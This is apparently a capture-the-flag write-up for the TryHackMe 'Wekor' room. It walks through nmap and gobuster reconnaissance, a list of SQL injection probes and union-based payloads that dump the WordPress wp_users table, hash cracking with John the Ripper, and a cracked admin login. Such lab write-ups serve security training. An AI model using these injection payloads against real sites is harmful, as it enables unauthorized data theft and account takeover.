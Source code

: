 # Wekor

**Room Link:** [https://tryhackme.com/room/wekorra](https://tryhackme.com/room/wekorra)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (700).png" alt=""><figcaption></figcaption></figure>





## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (701).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u $VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```







<figure><img src="../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
gobuster dir -u $VICTIM/workshop/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Kali**

```
gobuster dir -u $VICTIM/root/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

**Kali**

```
gobuster dir -u $VICTIM/lol/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Kali**

```
gobuster dir -u $VICTIM/agent/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Kali**

```
gobuster dir -u $VICTIM/feed/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Kali**

```
gobuster dir -u $VICTIM/crawler/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Kali**

```
gobuster dir -u $VICTIM/boot/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Kali**

```
gobuster dir -u $VICTIM/comingreallysoon/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```



**Kali**

```
gobuster dir -u $VICTIM/interesting/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```









<figure><img src="../../.gitbook/assets/image (703).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (704).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (705).png" alt=""><figcaption></figcaption></figure>

Save request into a file

<figure><img src="../../.gitbook/assets/image (706).png" alt=""><figcaption></figcaption></figure>







## SQL Injection



<figure><img src="../../.gitbook/assets/image (707).png" alt=""><figcaption></figcaption></figure>

**List**

```
'
"
`
')
")
`)
'))
"))
`))
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 4--+
1' GROUP BY 1--+
1' GROUP BY 2--+
1' GROUP BY 3--+
1' GROUP BY 4--+
1' UNION SELECT null-- -
1' UNION SELECT null,null-- -
1' UNION SELECT null,null,null-- -
1' UNION SELECT null,null,null,null-- -
1' UNION SELECT null,null,null,null,null-- -
```

<figure><img src="../../.gitbook/assets/image (708).png" alt=""><figcaption></figcaption></figure>

Get version

**Sql**

```
1'%20UNION%20SELECT%20null,null,VERSION()--%20
```



<figure><img src="../../.gitbook/assets/image (709).png" alt=""><figcaption></figcaption></figure>

Display all database names

**Sql**

```
1'%20UNION%20SELECT%20null,null,table_schema from information_schema.columns--%20
```



<figure><img src="../../.gitbook/assets/image (710).png" alt=""><figcaption></figcaption></figure>

Display tables inside wordpress database

**Sql**

```
1'%20UNION%20SELECT%20null,null,concat(table_name) from information_schema.columns where table_schema='wordpress'--%20
```

<figure><img src="../../.gitbook/assets/image (711).png" alt=""><figcaption></figcaption></figure>

Display all columns of wp\_users table

**Sql**

```
1'%20UNION%20SELECT%20null,null,concat(column_name) from information_schema.columns where table_schema='wordpress'and table_name='wp_users' --%20
```

<figure><img src="../../.gitbook/assets/image (714).png" alt=""><figcaption></figcaption></figure>

Display results of userlogin, user\_pass, and user\_activation\_key columns

**Sql**

```
1'%20UNION%20SELECT%20concat(user_login),concat(user_pass),concat(user_activation_key) from wordpress.wp_users--%20
```

<figure><img src="../../.gitbook/assets/image (715).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (716).png" alt=""><figcaption></figcaption></figure>

We have some credentials but they don't work for SSH. So there is info we are missing

**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
john  hash.txt --show
```

<figure><img src="../../.gitbook/assets/image (717).png" alt=""><figcaption></figcaption></figure>

**Sql**

```
1'%20UNION%20SELECT%20concat(user_url),concat(user_email),concat(user_nicename) from wordpress.wp_users--%20
```

<figure><img src="../../.gitbook/assets/image (718).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (719).png" alt=""><figcaption></figcaption></figure>

I added just the wekor site since the others are .com sites so I doubt they are being used.

<figure><img src="../../.gitbook/assets/image (720).png" alt=""><figcaption></figcaption></figure>

We can see the site

<figure><img src="../../.gitbook/assets/image (721).png" alt=""><figcaption></figcaption></figure>

We can login with all accounts but yura is a admin

**Credentials**

```
Username: wp_yura
Password: soccer13
```

<figure><img src="../../.gitbook/assets/image (723).png" alt=""><figcaption></figcaption></figure>



















